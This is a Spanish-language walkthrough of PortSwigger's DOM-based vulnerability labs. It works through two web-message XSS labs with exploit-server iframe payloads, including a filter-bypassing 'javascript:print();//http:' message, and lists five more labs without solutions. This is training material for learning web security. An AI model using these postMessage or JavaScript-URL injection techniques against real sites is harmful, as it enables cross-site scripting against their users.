



# DOM-based vulnerabilities - PortSwigger

Todos los laboratorios posteriormente expuestos los puedes encontrar para resolverlos en el siguiente link.

[https://portswigger.net/web-security/dom-based](https://portswigger.net/web-security/dom-based)

## Índice

## 1. Lab: DOM XSS using web messages

```
Esta práctica de laboratorio demuestra una vulnerabilidad de mensaje web simple. Para resolver esta práctica de laboratorio, use el servidor de explotación para publicar un mensaje en el sitio de destino que haga que print() se llame a la función.
```

Para resolver esta laboratorio empezamos buscando el código javascript que edita el DOM en el sitio web.

```html
<script>
    window.addEventListener('message', function(e) {
        document.getElementById('ads').innerHTML = e.data;
    })
</script>
```

Como podemos ver en el código, el sitio web recibe el mensaje mediante el evento addEventListener, y este lo ingresa dentro de un elemento con Id **ads**.

```html
<!-- Ads to be inserted here -->
<div id='ads'>
</div>
```

Entonces, crearemos un iframe en nuestro exploit server para enviar un mensaje desde este a la web objetivo.

```html
<style>
	#target{
		width:1280px;
		height:1280px;
	}
</style>
<iframe id='target' src='https://0a59002d04f446f88211bae700fb0094.web-security-academy.net/' onload="this.contentWindow.postMessage('mensaje de prueba','*')">
```

Luego verificamos en el server exploit que se muestre nuestro mensaje en el iframe del sitio objetivo.



Como podemos ver, se refleja nuestro texto de prueba en el sitio web, entonces lo que haremos sera ingresar una etiqueta HTML que genere un ataque XSS para ejecutar la función print().

```html

```

Entonces, nuestro payload en el exploit server quedaria de la siguiente manera:

```html
<style>
	#target{
		width:1280px;
		height:1280px;
	}
</style>
<iframe id='target' src='https://0a59002d04f446f88211bae700fb0094.web-security-academy.net/' onload="this.contentWindow.postMessage('','*')">
```

Como podemos ver, al ingresar a nuestro exploit server evidenciamos la opción de imprimir lo cual significa que se logro explotar el payload XSS.



Entonces, luego de que verificamos la validez del payload, lo enviamos a la victima y validamos que el laboratorio se haya resuelto.


## 2. Lab: DOM XSS using web messages and a JavaScript URL

```
Esta práctica de laboratorio demuestra una vulnerabilidad de redirección basada en DOM que se activa mediante la mensajería web. Para resolver esta práctica de laboratorio, construya una página HTML en el servidor de explotación que aproveche esta vulnerabilidad y llame a la print()función.
```

Para resolver esta laboratorio empezamos buscando el código javascript que edita el DOM en el sitio web.

```html
<script>
    window.addEventListener('message', function(e) {
        var url = e.data;
        if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
            location.href = url;
        }
    }, false);
</script>
```

Entonces, podemos ver que el sitio web objetivo obtiene el dato enviado por el mensaje de un sitio web y actualiza con este el valor de la variable location.href, pero como podemos el codigo javascript anterior valida que el mensaje que es enviado contenga el string **http:** o **https:** en su contenido.

Entonces, lo que haremos en primer lugar sera crear un payload que pueda ejecutar código javascript mediante la variable location.href.

Entonces, por laboratorios anteriores de xss, sabe que podemos usar como url el siguiente payload:

```html
javascript:alert(1);
```

Lo cual cargara un alert de javascript cuando este sea enviado a la url del navegador. Esto ocurre porque estamos especificando al navegador que luego de **javascript:** todo el contenido siguiente sea interpretado como código javascript.

Ahora, debemos agregar el string **http:** y la función print() que nos pide el laboratorio, asi que luego de ejecutar la función print, generamos un comentario con el string para que evada la protección.

```javascript
javascript:print();//http:
```

Entonces, nuestro payload final para el exploit server seria el siguiente:

```html
<style>
	#target{
		width:1280px;
		height:1280px;
	}
</style>
<iframe id='target' src='https://0a04005c0351f02a88752b7500e600cc.web-security-academy.net/' onload="this.contentWindow.postMessage('javascript:print();//http:','*')">
```

Entonces, luego de que verificamos la validez del payload, lo enviamos a la victima y validamos que el laboratorio se haya resuelto.



## 3. Lab: DOM XSS using web messages and JSON.parse

```
Este laboratorio usa mensajería web y analiza el mensaje como JSON. Para resolver el laboratorio, construya una página HTML en el servidor de explotación que aproveche esta vulnerabilidad y llame a la print() función.
```

## 4. Lab: DOM-based open redirection

```
Este laboratorio contiene una vulnerabilidad de redirección abierta basada en DOM. Para resolver este laboratorio, aproveche esta vulnerabilidad y redirija a la víctima al servidor de explotación.
```

## 5. Lab: DOM-based cookie manipulation

```
Este laboratorio demuestra la manipulación de cookies del lado del cliente basada en DOM. Para resolver este laboratorio, inyecte una cookie que cause XSS en una página diferente y llame a la print()función. Deberá usar el servidor de explotación para dirigir a la víctima a las páginas correctas.
```

## 6. Lab: Exploiting DOM clobbering to enable XSS

```
Este laboratorio contiene una vulnerabilidad DOM-clobbering. La funcionalidad de comentarios permite HTML "seguro". Para resolver este laboratorio, construye una inyección HTML que clobbers una variable y utiliza XSS para llamar a la función alert().
```

## 7. Lab: Clobbering DOM attributes to bypass HTML filters

```
Este laboratorio utiliza la biblioteca HTMLJanitor, que es vulnerable al DOM clobbering. Para resolverlo, construye un vector que evite el filtro y utilice el DOM clobbering para inyectar un vector que llame a la función print(). Puede que necesites utilizar el servidor de exploits para hacer que tu vector se auto-ejecute en el navegador de la víctima.
```